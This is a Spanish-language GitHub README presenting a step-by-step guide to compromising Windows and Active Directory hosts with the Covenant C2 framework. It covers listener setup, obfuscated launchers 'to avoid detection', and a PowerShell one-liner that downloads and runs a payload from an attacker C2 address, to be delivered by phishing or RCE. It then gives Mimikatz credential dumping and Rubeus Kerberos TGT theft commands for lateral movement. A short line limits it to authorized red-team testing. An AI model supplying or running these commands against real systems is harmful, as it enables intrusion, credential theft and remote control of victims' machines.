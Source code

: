# CovenTicket
Guía paso a paso para robar un *Ticket Granting Ticket (TGT)* de Kerberos usando **Covenant** como C2. Incluye:
1. **Preparación**: Instalación de Covenant en Kali Linux (requiere .NET Core).  
2. **Técnicas**:  
   - Uso de **Rubeus** (`asktgt`) para generar TGT con credenciales/NTLM hash.  
   - Extracción de tickets con **Mimikatz** (`sekurlsa::tickets`).  
3. **Propósito**:  
   - Movimiento lateral en redes Active Directory.  
   - Escalada de privilegios (*Golden Ticket*).  
4. **Contexto Ético**:  
   - Solo para pruebas de penetración *autorizadas* y entrenamiento Red Team.  
   - Técnicas asociadas a **MITRE ATT&CK T1558.001**.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant.jpeg)

# 🔧 Configuración inicial

-  Cambiar credenciales predeterminadas (en la primera ejecución).

-  Crear un Listener (HTTP/HTTPS) para recibir conexiones de los Grunts.

-  Generar un Launcher (PowerShell, Binary, etc.) para infectar los sistemas objetivo.

  
## 1⚙️ Instalación de Covenant:
```bash
https://github.com/cobbr/Covenant/wiki/Installation-And-Startup
````

## 2 Ejecutar Covenant (modo desarrollo):

````bash
dotnet run
````
## 3 Acceder a la interfaz web: 
Abre un navegador y visita:
🔗 http://localhost:7443
Credenciales por defecto:
```bash
Usuario: usuario
Contraseña: password123
```

## 4 🎧 Configuración del Listener (HTTP/HTTPS)

-  Ve a Listeners > Create.

-  Selecciona HTTP (o HTTPS si tienes certificados).

- Configuración básica:

    - Name: MiListener-HTTP

    - BindAddress: 0.0.0.0 (escucha en todas las interfaces).

    - BindPort: 80 (HTTP) o 443 (HTTPS).

    - ConnectAddress: <IP_Pública_o_Dominio> (¡Obligatorio!).

- Perfiles C2: Usa uno predefinido (ej: default) o personaliza headers/user-agents.

- Guardar e Iniciar:

    - Click en Create y luego en Start.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Listener.png)

## 2 🚀 Generación de Launchers
Objetivo: Crear payloads para ejecutar en sistemas víctimas y obtener Grunts.

### Tipos comunes y pasos:

- A. PowerShell Launcher (One-liner):
    - Ve a Launchers > PowerShell.

    - Configura:

        - Listener: MiListener-HTTP.

        - Obfuscation: Habilita Obfuscate Command (evita detección).

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Generate.png)
    
   - Generar
        - Copia el comando resultante
        
      ```bash
      powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<C2_IP>/launcher.ps1')"
      ```
        
        - Ejecútalo en la máquina víctima (ej: via phishing o RCE).
  
![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Host.png)

  - B. Binary Launcher (EXE)

    - Ve a Launchers > Binary.

    - Configura:

        - Listener: MiListener-HTTP.

        - DotNet Version: Net40 (compatible con más sistemas).

    - Generar:

        - Descarga el .exe y ejecútalo en la víctima.

## 3 🤖  Administración de Grunts
### Objetivo: Interactuar con los sistemas comprometidos.

Pasos: 
  - Ver Grunts activos:

     - En el dashboard principal, aparecerán bajo Grunts al conectarse.

  - Interactuar con un Grunt:

    - Selecciona el Grunt > Click en Interact.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Grunt-Interact.png)

   - Usa la consola para ejecutar comandos:
     ```bash
     Shell whoami /all          # Ver información del usuario.
     Shell net user /domain     # Listar usuarios del dominio (si es AD).
     ````
Comandos útiles:

-  Comando | 	Descripción

-  Shell <cmd>	|  Ejecuta comandos del sistema.

-  Upload <local> <remoto>	| Sube archivos al Grunt.

-  Download <remoto> <local>	| Descarga archivos del Grunt.

-  Ps |	Lista procesos en ejecución.

-  Inject <PID> <shellcode> |	Inyecta código en un proceso.

-  Pivot <técnica> |	Movimiento lateral (ej: SMB, WMI).

### Módulos avanzados.
 - Mimikatz Extraer credenciales:
```bash
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
````
 - Rubeus Robar tickets Kerberos (TGT):
```bash
Execute Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_Hash> /nowrap
````
# 🚨 Solución de errores comunes
Error con ICU:

````bash
sudo apt install libicu-dev -y
export DOTNET_SYSTEM_GLOBALIZATION_INVARIANT=1
````
Problemas con .NET:
````bash
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update && sudo apt install -y dotnet-sdk-6.0
````

## 🎯 Ejemplo de Flujo Completo
  - Listener: Creas MiListener-HTTP en el puerto 80.
  - Launcher: Generas un one-liner de PowerShell y lo ejecutas en la víctima.
  - Grunts: Interactúas con el Grunt, robas credenciales con Mimikatz y te mueves lateralmente.

## 📌 Notas clave
  - Kali + Covenant: Asegúrate de que el servidor Covenant sea accesible desde el exterior (configura NAT/port forwarding si es necesario).
  - HTTPS > HTTP: Siempre preferible para evitar sniffing.
  - Grunts muertos: Si un Grunt se cae, regenera el Launcher con el mismo perfil.


